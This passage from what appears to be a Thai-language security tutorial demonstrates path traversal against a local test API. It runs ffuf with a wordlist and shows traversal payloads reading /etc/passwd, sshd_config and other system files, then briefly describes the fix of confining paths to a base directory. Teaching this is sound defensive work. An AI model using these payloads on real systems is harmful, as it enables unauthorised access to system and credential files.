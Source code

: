 ด้วยความที่ wordlist มันเยอะมาก เราก็ใช้ FFUF เอา wordlist เหล่านี้มา request API แบบสุ่ม ๆ (fuzzing) โดยตัวอย่างนี้เราก็ไม่ต้องสุ่มเยอะแยะ ใช้รูปแบบ **Sniper** เพื่อเล็งเป้าหมายเฉพาะเจาะจงยิงไปทีละ path เลย โดยแต่ละ path จะเข้าไปแทนที่คำว่า `FUZZ` ในคำสั่งนั่นเอง

```console
➜ ffuf -u http://127.0.0.1:6000/read_file\?file\=FUZZ -w path/to/wordlist.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://127.0.0.1:6000/read_file?file=FUZZ
 :: Wordlist         : FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 9050, Words: 229, Lines: 139, Duration: 23ms]
/etc/apache2/httpd.conf [Status: 200, Size: 21648, Words: 2523, Lines: 558, Duration: 20ms]
/etc/group              [Status: 200, Size: 3824, Words: 42, Lines: 168, Duration: 20ms]
/etc/hosts              [Status: 200, Size: 365, Words: 57, Lines: 14, Duration: 24ms]
/etc/hosts.equiv        [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 22ms]
/./././././././././././etc/passwd [Status: 200, Size: 9050, Words: 229, Lines: 139, Duration: 22ms]
/../../../../../../../../../../etc/passwd [Status: 200, Size: 9050, Words: 229, Lines: 139, Duration: 22ms]
/etc/passwd             [Status: 200, Size: 9050, Words: 229, Lines: 139, Duration: 22ms]
/etc/resolv.conf        [Status: 200, Size: 386, Words: 54, Lines: 18, Duration: 19ms]
/etc/rpc                [Status: 200, Size: 1735, Words: 74, Lines: 74, Duration: 21ms]
/etc/syslog.conf        [Status: 200, Size: 96, Words: 11, Lines: 4, Duration: 18ms]
/etc/ssh/sshd_config    [Status: 200, Size: 3517, Words: 342, Lines: 124, Duration: 19ms]
///////../../../etc/passwd [Status: 200, Size: 9050, Words: 229, Lines: 139, Duration: 19ms]
:: Progress: [929/929] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

จาก output จะสังเกตเห็นว่าเราสามารถเปิดช่องโหว่ได้จากหลากหลาย path เลย (HTTP status 200)

### วิธีอุดช่องโหว่
วิธีแก้ไขก็ตามปัญหาที่เกิดขึ้นเลย ก็คือ**ตรวจสอบ path ว่ามันพยายามจะออกนอก folder** (`BASE_DIR`) ที่กำหนดไว้หรือเปล่า

<script src="https://gist.github.com/raksit31667/4d506cee48dbf8b31475c7a91afbb722.js"></script>
